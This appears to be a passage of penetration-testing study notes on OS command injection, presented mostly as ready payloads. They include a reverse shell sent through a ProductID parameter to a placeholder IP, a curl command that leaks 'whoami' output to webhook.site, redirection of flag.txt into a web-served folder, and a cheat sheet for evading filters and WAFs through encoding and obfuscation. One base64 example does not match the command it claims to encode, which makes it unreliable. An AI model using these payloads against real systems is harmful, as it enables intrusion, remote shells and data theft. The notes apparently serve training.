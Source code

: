**Reverse Shell:**
`ProductID=1||bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'||

**Sending Commands:**
``ProductID=1||curl http://`whoami`.webhook.site/your-id||``
#### Output Redirection
1. Try to send a command, or information from another resource to an accessible location:
```shell
& whoami > /var/www/static/whoami.txt &
```
or
```shell
& cat flag.txt > ./uploads/image.jpg &
```
### Filter / WAF Detection
If we receive `invalid input` when sending payloads, we now a security mechanism is in place detecting a blacklisted character or command.
#### Testing Blacklisted Characters
1. Reduce our input to 1 character at a time (ex: `;`)
	- If it still gets blocked, we know that character is blocked now
2. Try replacing that character with the URL-encoded version (ex: `%3b`)
3. If its still blocked, refer to the below cheatsheet:

| Code                    | Description                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `printenv`              | Can be used to view all environment variables                                      |
| **Spaces**              |                                                                                    |
| `%09`                   | Using tabs instead of spaces                                                       |
| `${IFS}`                | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`              | Commas will be replaced with spaces                                                |
| **Other Characters**    |                                                                                    |
| `${PATH:0:1}`           | Will be replaced with `/`                                                          |
| `${LS_COLORS:10:1}`     | Will be replaced with `;`                                                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`)                                                |
#### Testing Blacklisted Commands
If a command is blacklisted:
1. Try inserting characters within our command:
	- `w'h'o'am'i` or `w"h"o"am"i`
	- `who$@ami` or `w\ho\am\i`
2. Try manipulating past the filter to execute the command:
	- `$(a="WhOaMi";printf %s "${a,,}")` or `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`
	- `$(rev<<<'imaohw')`
3. Try encoding the command then executing:
	- `echo -n 'whoami' | base64` -> `Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==`
	- Then use: `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`
4. Try using automated tools to obfuscate commands such as [[2. Bypassing Blacklisted Objects#Linux (Bashfuscator)]]

